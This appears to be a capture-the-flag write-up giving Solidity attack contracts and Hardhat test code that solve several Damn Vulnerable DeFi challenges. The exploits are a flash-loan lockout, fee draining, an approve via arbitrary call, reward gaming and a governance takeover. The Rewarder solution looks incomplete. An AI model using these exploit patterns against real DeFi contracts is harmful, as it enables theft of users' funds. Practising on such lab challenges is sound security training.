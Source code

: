 # DamnVulnerableDefi

## Challenge #1 - Unstoppable 

To stop the pool from offering flash loans the assert statement in the flashloan function needs to be exploited. This can be done via sending
tokens to the contract by not using the depositTOken function. This way ```poolBlanace``` will never be equal to ```balanceBefore```.

Add these lines to unstopabble.challenge.js:
```
 it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).transfer(this.pool.address, 1);
    });
```

## Challenge #2 - Naive receiver

To drain all ETH funds from the user's contract , the contract must borrow a flash loan 10 times so that it has to pay a fee of 1ETH everytime.
SInce there's no restriction on the flashLoan function it can be called by anyone. Calling it 10 times does the job.

Add these lines to naive-receiver.challenge.js:
``` 
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        for (let i = 0; i < 10; i++) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address,0);
        }        
        
    });
```
## Challenge #3 - Truster

Create new contract _TrusterHack.sol_ 
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./TrusterLenderPool.sol";

contract TrusterHack  {

    function hack( address _pool, address _token, uint amount) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token);

        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)", address(this), amount
        );

        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool , msg.sender, token.balanceOf(_pool));
    }
}
```

truster.challenge.js : 
```
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const _TrusterHack = await ethers.getContractFactory('TrusterHack', deployer);
        const TrusterHackContract = await _TrusterHack.deploy();

        await TrusterHackContract.connect(attacker).hack(this.pool.address, this.token.address, TOKENS_IN_POOL);        
    });
```
## Challenge #5 - The rewarder
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./FlashLoanerPool.sol";
import "./TheRewarderPool.sol";


contract HackRewarder {

    IERC20 token;
    FlashLoanerPool pool;
    TheRewarderPool rewardPool;
    uint256 andhapaisa;

    constructor (address _pool, address _token, address _rewardPool) {
        
        pool = FlashLoanerPool(_pool);
        token = IERC20(_token);
        rewardPool = TheRewarderPool(_rewardPool);
        andhapaisa = token.balanceOf(address(pool));
    }

    function attack() public {
        pool.flashLoan(andhapaisa);
    }

    fallback() external {

        token.approve(address(rewardPool), andhapaisa);
        rewardPool.deposit(andhapaisa);
        rewardPool.withdraw(andhapaisa);
        token.transfer(address(pool),andhapaisa);
    }
}
```
## Challenge #6 - Selfie

Create a new contract, SelfieHack.sol : 
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "./SelfiePool.sol";
import "../DamnValuableTokenSnapshot.sol";
import "./SimpleGovernance.sol";

contract SelfieHack {

    // ERC20Snapshot public token;
    DamnValuableTokenSnapshot public token;
    SelfiePool pool;
    SimpleGovernance  gov;
    address payable attacker;
    uint256 public actionId;

    constructor (address _token, address _pool, address _gov) {
        token = DamnValuableTokenSnapshot(_token);
        pool = SelfiePool(_pool);
        gov = SimpleGovernance(_gov);
        attacker = payable(msg.sender);
    }

    function attack(uint256 amount) external {
        pool.flashLoan(amount);
    }

    function receiveTokens(address tokenaddr, uint256 amount) external {        
        token.snapshot();
        token.transfer(msg.sender, amount);
        bytes memory data = abi.encodeWithSignature(
            "drainAllFunds(address)",
            attacker
            );        
        actionId = gov.queueAction(address(pool), data, 0);        
    }
}

```

selfie.challenge.js:
```
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */     

        const SelfieHackFactory = await ethers.getContractFactory('SelfieHack', attacker);
        const SelfieHackContract = await SelfieHackFactory.deploy(this.token.address, this.pool.address, this.governance.address);
        await SelfieHackContract.connect(attacker).attack(TOKENS_IN_POOL);
        const actionId = ethers.BigNumber.from(await SelfieHackContract.connect(attacker).actionId());        

        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); 
        await this.governance.connect(attacker).executeAction(actionId);
    });


```
